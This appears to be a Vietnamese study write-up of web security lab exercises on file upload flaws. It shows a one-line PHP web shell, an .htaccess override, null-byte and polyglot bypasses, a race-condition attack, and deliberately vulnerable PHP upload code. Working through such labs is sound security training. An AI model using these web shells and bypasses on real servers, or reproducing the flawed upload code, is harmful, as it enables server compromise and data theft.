 # File Upload
## Labs

### LAB: Remote code execution via web shell upload
**Yêu cầu**: Lab có lỗ hổng ở chức năng upload ảnh. Nhiệm vụ: tải lên PHP web shell, dùng nó lấy nội dung file `/home/carlos/secret` rồi nộp bí mật đó. Đăng nhập: `wiener:peter`

**Thực hiện**
- Upload file shell lên là thành công.
- Nội dung shell:
    ```
    <?php system($_GET['cmd']); ?>
    ```
- Upload thành công giờ thì tìm xem file đó ở đâu. Khi mà UI được load thì ảnh sẽ được load theo ta có thể viewsource để xem.
![alt text](img/image-1.png)
- Đó giờ thì thực hiện truy cập.
![alt text](img/image-2.png)
___

### LAB: Web shell upload via Content-Type restriction bypass
**Yêu cầu**: Lab có lỗ hổng ở chức năng upload ảnh. Nhiệm vụ: tải lên PHP web shell, dùng nó lấy nội dung file `/home/carlos/secret` rồi nộp bí mật đó. Đăng nhập: `wiener:peter`

**Thực hiện**
- Upload file shell lên và tùy chỉnh content-type thành image/jpeg.
![alt text](img/image.png)
`GET fulab1.php?cmd=cat%20/home/carlos/secret` để đọc thông tin

**Vấn đề**
Chỉ chặn bằng việc kiểm tra header Content-type -> Có thể bypass dễ dàng
___

### LAB: Web shell upload via path traversal
**Yêu cầu**: Lab có lỗ hổng upload ảnh, nhưng server chặn thực thi file. Nhiệm vụ: khai thác lỗ hổng phụ để bypass, tải lên PHP web shell, dùng nó lấy nội dung file `/home/carlos/secret`, rồi nộp bí mật đó. Đăng nhập: `wiener:peter`.

**Thực hiện**
- Upload shell bình thường và chỉnh sửa lại gói tin upload đó.
Thay đổi `filename` và xem kết quả đầu ra. Thông thường việc encode và decode url là do server cài đặt (APACHE). 
![alt text](img/image-3.png)
- Giờ thì truy cập vào file shell.
![alt text](img/image-4.png)

**Vấn đề**
Trong bài lab khi upload shell lên thì shell ở thư mục `files/avatars` và thư mục này không cho phép thực thi shell -> Cho nên ta tìm cách upload ở thư mục khác có quyền thực thi
>Tips 💡
Web servers often use the filename field in multipart/form-data requests to determine the name and location where the file should be saved.
___

### LAB: Web shell upload via extension blacklist bypass
**Yêu cầu**: Lab có lỗ hổng upload ảnh, chặn một số phần mở rộng file nhưng có lỗi trong cấu hình blacklist. Nhiệm vụ: bypass blacklist, tải lên PHP web shell, dùng nó lấy nội dung file `/home/carlos/secret`, rồi nộp bí mật đó. Đăng nhập: `wiener:peter`.

**Thực hiện**
- Ở các phiên bản cũ APACHE thì cho phép trong thư mục tồn tại 1 file `.htaccess`. File này có vai trò ghi đè các cấu hình lên chính thư mục chứa nó.
Vì thế trong bài này chúng ta cần upload 1 file `.htaccess` để ghi đè cấu hình xử lí các file có extension `php...`.
- File `.htaccess` có nội dung như sau:
    ```
    AddType application/x-httpd-php .php5
    ```
- Ban đầu trước khi có file cấu hình
![alt text](img/image-5.png)
- Sau khi upload file ghi đè cấu hình
![alt text](img/image-6.png)

**Vấn đề**
Các file extension là `php...` thì không được thực thi mà được đưa ra dạng plaintext. Vấn đề này là các định nghĩa cấu hình server.
___

### LAB: Web shell upload via obfuscated file extension
**Yêu cầu**: Lab có lỗ hổng upload ảnh, chặn một số phần mở rộng file nhưng có thể bypass bằng kỹ thuật obfuscation. Nhiệm vụ: lợi dụng obfuscation để tải lên PHP web shell, dùng nó lấy nội dung file `/home/carlos/secret`, rồi nộp bí mật đó.

**Thực hiện**
- Cách tấn công ở đây là nullbyte injection. Ở phiên bản cũ PHP 5.3.x đổ xuống, ở bước kiểm tra `filename` phía backend sẽ kiểm tra chuỗi sau `.` cuối cùng có phải là `jpg` hay `png`. Còn khi chuẩn hóa vào đường dẫn thì PHP chỉ kiểm tra đến kí tự cuối cùng trước `null`( này cũng là do PHP được code bởi C mà đọc chuỗi trong C thì dừng khi gặp kí tự `null` đầu tiên)
- `filename="a.php%00.jpg"`
![alt text](img/image-7.png)
- Thực thi shell
![alt text](img/image-8.png)

**Vấn đề**
Server chặn các gói tin upload không phải định dạng ảnh bằng việc check extension của file. Với các extension khác nhau thì server sẽ xử lí khác nhau ( ảnh thì hiện thị ra ảnh, nếu file php thì sẽ thực thi). Tuy nhiên vì không up được file php lên mà chỉ up file ảnh cho nên hệ thống xử lí các file đó dưới định dạng ảnh.
___

### LAB: Remote code execution via polyglot web shell upload
**Yêu cầu**: Lab có lỗ hổng upload ảnh, kiểm tra nội dung file để xác thực hình ảnh nhưng vẫn có thể upload và thực thi mã trên server. Nhiệm vụ: bypass kiểm tra, tải lên PHP web shell, dùng nó lấy nội dung file `/home/carlos/secret`, rồi nộp bí mật đó.

**Thực hiện**
- Tiến hành upload file shell lên. Sau đó chèn thêm các magic bytes của img/png ở đầu nội dung file và theo dõi phản hồi.
![List of file signatures](img/image-9.png)
- Nên chỉnh sửa theo từng bytes để chính xác hơn.
![alt text](img/image-10.png)
- Thực thi được shell
![alt text](img/image-11.png)

**Vấn đề**
Phía server thay vì chỉ dựa vào `Content-Type` để xử lí thì còn dựa vào `MIMETYPE` thông qua magic bytes ở đầu file.
___

### LAB: Web shell upload via race condition
**Yêu cầu**: Lab có lỗ hổng upload ảnh, kiểm tra file chặt chẽ nhưng có thể bypass bằng cách khai thác `race condition`. Nhiệm vụ: tận dụng race condition để tải lên PHP web shell, dùng nó lấy nội dung file `/home/carlos/secret`, rồi nộp bí mật đó.

**Sample code**
```
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```
**Thực hiện**
- Chúng ta cần 2 gói tin:
    1. Gói tin upload shell
    2. Gói tin thực thi shell
- Vì cần thực hiện trong race window nên chúng ta chuẩn bị trước để khai thác trong thời gian tối thiểu.
![alt text](img/image-13.png)
![alt text](img/image-12.png)
- Tiến hành gửi song song 2 gói tin để nhận kết quả. Thông thường vì thời gian chưa đủ nhanh nên có thể lúc được lúc không. Để tăng khả năng tấn công có thể dùng `Turbo Intruder`
- Thành công
![alt text](img/image-14.png)

**Vấn đề**: Sau khi đọc qua source code thì ta sẽ thấy khi file được upload lên thì nó sẽ được đưa đến thư mục `$target_file`. Rồi trong bước kiểm tra sau đó mới bị xóa. Vậy thì có tồn tại 1 khoảng thời gian nhỏ file nằm trong thư mục trước khi bị xóa. Tận dụng điều này để mở race window và up shell thành công.

